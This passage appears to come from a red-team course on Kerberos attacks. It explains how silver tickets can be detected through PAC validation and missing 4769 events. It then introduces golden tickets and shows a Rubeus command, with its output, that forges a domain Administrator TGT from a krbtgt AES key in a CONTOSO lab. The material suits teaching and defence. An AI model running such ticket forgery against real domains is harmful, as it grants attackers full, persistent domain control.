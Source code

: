# _OPSEC Considerations_

Silver tickets can be effectively mitigated when PAC validation is enabled on computers.  In the examples above, Rubeus will use the computer's secret to sign the ticket where it should be signed with the krbtgt's secret.  Obviously, this isn't possible if you don't possess it.  So when the target computer receives the silver ticket, it will validate the checksum signature with the KDC which will fail, and the service will deny you access.

In cases where PAC validation cannot be enabled or the adversary has signed the ticket using the krbtgt hash, silver tickets may still be possible to detect.  Although, unfortunately, there is no silver bullet (no pun intended).  In a legitimate ticket exchange, you would expect to have a TGS-REQ and TGS-REP to obtain a service ticket before it can be used.  A TGS-REQ is logged by a domain controller as event ID 4769, which includes information such as the requesting user and the target service.  When a service ticket is used, the target computer also produces a [4624](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4624) event for the user detailed in the ticket.  Since silver tickets are forged offline, their use produces a 4624 event on the target computer, but there would be no corresponding 4769 event prior to that.

> Silver tickets may also be detected if they're forged with inaccurate or anomalous information.  For example, the Kerberos realm (i.e. the domain name) should traditionally be in all uppercase characters.  If a ticket is logged that has the domain in lowercase, then it could be an indication that it's forged.  Some tools, such as Rubeus, make an effort to convert provided the domain to uppercase to avoid this particular anomaly but your mileage will vary between tools.


### Golden Tickets

A 'golden ticket' is a forged TGT that has been signed with the KDC's secret [T1558.001](https://attack.mitre.org/techniques/T1558/001/).  This hash is typically obtained via [DCSync](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=674b7a8f599d7c0c400975d8) after domain admin privileges have been obtained.  With it, an adversary can forge valid TGTs for any user in the domain and by extension, request service tickets as any user, to any service.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : CONTOSO.COM (CONTOSO)
[*] SID            : S-1-5-21-3926355307-1661546229-813047887
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 512920012661247C674784EEF6E1B3BA52F64F28F57CF2B3F67246F20E6C722C
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 512920012661247C674784EEF6E1B3BA52F64F28F57CF2B3F67246F20E6C722C
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : CONTOSO.COM

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@CONTOSO.COM'

[*] AuthTime       : 04/03/2025 15:49:53
[*] StartTime      : 04/03/2025 15:49:53
[*] EndTime        : 05/03/2025 01:49:53
[*] RenewTill      : 11/03/2025 15:49:53
```